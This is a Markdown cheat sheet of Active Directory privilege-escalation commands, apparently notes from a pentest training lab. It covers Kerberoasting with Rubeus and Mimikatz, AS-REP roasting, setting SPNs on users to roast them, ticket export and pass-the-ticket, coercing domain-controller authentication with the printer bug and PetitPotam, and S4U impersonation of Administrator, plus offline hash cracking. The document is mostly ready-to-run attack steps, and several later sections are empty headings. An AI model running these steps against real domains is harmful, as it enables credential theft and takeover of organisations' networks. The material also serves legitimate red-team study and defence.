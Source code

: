 
## AD Privilege Escalation

- [Kerberoasting](#kerberoasting)
    + [Using `Rubeus.exe`](#using--rubeusexe-)
    + [Using Mimikatz](#using-mimikatz)
- [Targeted Kerberoasting AS-REPs](#targeted-kerberoasting-as-reps)
    + [Enumerating accounts with Kerberos Preauth disabled](#enumerating-accounts-with-kerberos-preauth-disabled)
    + [Disable Kerberos Preauth](#disable-kerberos-preauth)
    + [ASREPRoast : Request Encrypted AS-REP for Offline Brute Force](#asreproast---request-encrypted-as-rep-for-offline-brute-force)
- [Targeted Kerberoasting Set SPN](#targeted-kerberoasting-set-spn)
- [Kerberos Delegation](#kerberos-delegation)
    + [Uncostrained Delegation](#uncostrained-delegation)
    + [Printer Bug](#printer-bug)
  * [Constrained Delegation](#constrained-delegation)

### Kerberoasting
---
```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . .\PowerView.ps1
C:> Get-DomainUser -SPN
# We require to use the 'serviceprincipalname'

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
##### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John. Adequate file before cracking
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
##### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken 
    -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` files: asd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
---
##### Enumerating accounts with Kerberos Preauth disabled
```powershell
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose    

# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
##### Disable Kerberos Preauth
```powershell
C:> Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
C:> Get-DomainUser -PreauthNotRequired -Verbose    # Check
``` 
##### ASREPRoast 
```powershell
# Request Encrypted AS-REP for Offline Brute Force
C:> Get-ASREPHash -UserName <user> -Verbose

# Enumerate Users with KErberos preauth disabled
C:> Invoke-ASREPRoast -Verbose

# Crack using JTR
C:> john.exe --wordlist=C:\10k-worst-pass.txt C:\asrephashes.txt
```
### Targeted Kerberoasting Set SPN
---
With rights over a user, we can set a SPN to it, and then go for a AS-REPs attack.
```powershell
# Enumerate permissions for RDPUsers
C:> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Check if user already has a SPN
C:> Get-DomainUser -Identity <user> | select serviceprincipalname

# Set SPN for the user
C:> Set-DomainObject -Identity <user> | Set @{serviceprincipalname='ops/whatever1'}

# Kerberoast the user
C:> Rubeus.exe kerberoast /outfile:targetedhashes.txt
C:> john.exe /wordlist=C:\wordlist.txt C:\targetedhashes.txt
```

### Kerberos Delegation
---

#### Uncostrained Delegation
```powershell
# Find Server with Unconstraided Delegation Enabled
C:> . C:\AD\Tools\PowerView.ps1
C:> Get-DomainComputer -Unconstrained | select -ExpandProperty name
<host1>
<host_n>

# Compromise the server and wait uuser to connect to server and then dump tokens on .kirbi files
C:> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Reuse the exported ticket with PTT
C:> Invoke-Mimikatz -Command '"kerberos::ptt C:<ticket_file_name>.kirbi"'
```
- Requisite for elevation using this technique, is to compromise a user with Admin Rights on the host

##### Printer Bug
```powershell
# Need shell in the server to compromise
# Launch Rubeus listener to capture TGT from DC 
C:> Rubeus.exe monitor /targetuser:<dc-name>$ /interval:5 /nowrap

# From a shell on our host, force DC auth to the server to compromise
C:> MS-RPRN.exe \\<DC_fqdn_name> \\<server_to_compromise_fqdn>
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.     # This error is OK

# PetiPoam can be user as well. Does the same.
# USefull when no print spooler enabled
C:> PetitPotam.exe dcorp-appsrv dcorp-dc

# At this point, in Rubeus we got the TGT for DC auth.
# Copy the Base64EncodedTicket and use with Rubeus in a elevated shell from our host
C:> Rubeus.exe ptt /ticket:<Base64EncodedTicket>
[*] Action: Import Ticket
[+] Ticket successfully imported!

# At this point we get a ticket for the DC User
# From here, a DC-Sync attack to DC to get krbtgt and also to enterprise DC.
```
#### Constrained Delegation
```powershell
# Get users with Constraied delegation
C:> . .\PowerView.ps1
C:> Get-DomainUser -TrustedToAuth

# Request a TGS for user as Domain Administrator for CIFS on host
C:> Rubeus.exe s4u /user:<user> /aes256:<user_aes_hash> /impersonateuser:Administrator /msdsspn:"CIFS/<host_fqdn>" /ptt
```
```powershell
# Get Computer Accounts with Constrained Delegation
C:> Get-DomainComputer -TrustedToAuth

# Impersonate User Administrator using the host account
C:> Rubeus.exe s4u /user:<host_account>$ /aes256:<host_aes_hash> /impersonateuser:Administrator /msdsspn:time/<host_Fqdn> /altservice:ldap /ptt
```
##### Resource Based RBCD


### DNSAdmins

### Across Trusts

##### Child to Parent

##### Across Forest

##### Across Domain Trusts AD CS

### MS SQL Servers
